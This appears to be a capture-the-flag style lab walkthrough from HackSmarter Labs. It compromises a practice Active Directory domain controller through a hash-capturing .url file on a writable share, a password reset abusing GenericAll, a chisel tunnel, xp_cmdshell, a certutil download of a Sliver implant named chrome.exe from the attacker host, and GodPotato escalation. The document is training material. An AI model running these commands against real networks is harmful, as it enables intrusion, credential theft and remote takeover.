


As a penetration tester on the Hack Smarter Red Team, the mission is to infiltrate and seize control of the client's entire Active Directory environment. This engagement simulates a full-scale assault to expose and exploit every vulnerability.
Initial Access: Direct access to the internal network with no credentials.
Goal: Enumerate, exploit, and achieve full domain compromise.
I started with a comprehensive port scan to identify all available services:
$ nmap -p- -T4 -sC -sV -Pn 10.1.25.158 -o nmapKey findings:
hack.smarterThe scan identified this as a Domain Controller (DC01.hack.smarter) running Windows Server 2022.
I checked for null session access on SMB shares:
$ nxc smb hack.smarter -u ' ' -p '' --sharesSMB 10.1.25.158 445 DC01 [+] hack.smarter\ : (Guest)
SMB 10.1.25.158 445 DC01 Share Permissions Remark
SMB 10.1.25.158 445 DC01 ----- ----------- ------
SMB 10.1.25.158 445 DC01 Share READ,WRITEThe Share folder has READ,WRITE access - this is significant for credential harvesting.
I created a malicious URL shortcut that forces any user browsing the share to authenticate back to my machine:
$ cat @pwn.url
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\10.200.25.158\share\icon.ico
IconIndex=1Started Responder to capture authentication attempts:
$ sudo responder -I tun0 -vUploaded the malicious file to the writable share:
$ smbclient //10.1.25.158/Share -N -c 'put @pwn.url'Within minutes, I captured an NTLMv2 hash:
[SMB] NTLMv2-SSP Username : HACK\bob.ross
[SMB] NTLMv2-SSP Hash : bob.ross::HACK:7f7dc36e91980a6b:BA6C77...$ hashcat hash /usr/share/wordlists/rockyou.txtCredentials obtained: bob.ross:[REDACTED]
Verified the credentials work:
$ nxc smb hack.smarter -u bob.ross -p '[REDACTED]'
SMB 10.1.25.158 445 DC01 [+] hack.smarter\bob.ross:[REDACTED]I collected Active Directory data for analysis:
$ nxc ldap 10.1.25.158 -u bob.ross -p '[REDACTED]' --bloodhound --collection All --dns-server 10.1.25.158After importing the data into BloodHound, I discovered that bob.ross has GenericAll rights over alice.wonderland.

With GenericAll rights, I forced a password change on alice.wonderland:
$ net rpc password "alice.wonderland" 'Zerotrace123!' -U 'hack.smarter/bob.ross%[REDACTED]' -S 10.1.25.158Verified the new credentials:
$ nxc smb hack.smarter -u alice.wonderland -p 'Zerotrace123!'
SMB 10.1.25.158 445 DC01 [+] hack.smarter\alice.wonderland:[REDACTED]BloodHound showed that alice.wonderland is a member of Remote Management Users:

$ evil-winrm -u alice.wonderland -p 'Zerotrace123!' -i 10.1.25.158
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents>*Evil-WinRM* PS C:\Users\alice.wonderland\Desktop> type user.txt
bWFkZV9pdF90aGlzX2Zhcgo=While enumerating the system, I found a SQL2019 folder and checked for internal services:
*Evil-WinRM* PS C:\> netstat -ano | findstr 1433
TCP 127.0.0.1:1433 0.0.0.0:0 LISTENING 4240MSSQL is running on localhost only - I need to tunnel this traffic.
Attack host - Start server:
$ sudo chisel server -p 8000 --reverse --socks5Target - Upload and run client:
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> upload chisel.exe
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> ./chisel.exe client 10.200.25.158:8000 R:socksConfigure proxychains (/etc/proxychains4.conf):
[ProxyList]
socks5 127.0.0.1 1080$ proxychains mssqlclient.py -p 1433 alice.wonderland@127.0.0.1 -windows-authChecked privileges - the user is sysadmin:
SQL> SELECT IS_SRVROLEMEMBER('sysadmin')
-----------
1Command execution via xp_cmdshell works:
SQL> xp_cmdshell "whoami"
nt service\mssql$sqlexpressGenerated a Sliver implant:
sliver > generate --mtls 10.200.25.158:450 --os windows --arch amd64 --save .
sliver > mtls -L 10.200.25.158 -l 450Transferred and executed via MSSQL:
SQL> xp_cmdshell "certutil.exe -urlcache -f http://10.200.25.158/chrome.exe C:\Users\Public\chrome.exe"
SQL> xp_cmdshell "C:\Users\Public\chrome.exe"The MSSQL service account has SeImpersonatePrivilege:
SeImpersonatePrivilege Impersonate a client after authentication EnabledUploaded GodPotato for privilege escalation:
sliver (SHOCKED_KITCHEN) > upload godpotato.exe C:\Users\Public\godpotato.exeVerified SYSTEM impersonation works:
PS C:\Users\Public> ./godpotato.exe -cmd "whoami"
nt authority\systemAdded alice.wonderland to the local Administrators group:
PS C:\Users\Public> ./godpotato.exe -cmd "net localgroup Administrators alice.wonderland /add"
The command completed successfully.After re-authenticating with the elevated account:
$ evil-winrm -u alice.wonderland -p 'Zerotrace123!' -i 10.1.25.158
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
YWxsIGFib3V0IHRoYXQgcm9vdCwgYm91dCB0aGF0IHJvb3QsIEpVU1QgREEKThis machine demonstrates a realistic Active Directory attack chain, from initial access through domain compromise. The attack leveraged several common misconfigurations:
Understanding these attack paths is essential for both offensive security professionals and defenders looking to harden their environments.
Walkthrough by Zerotrace | HackSmarter Labs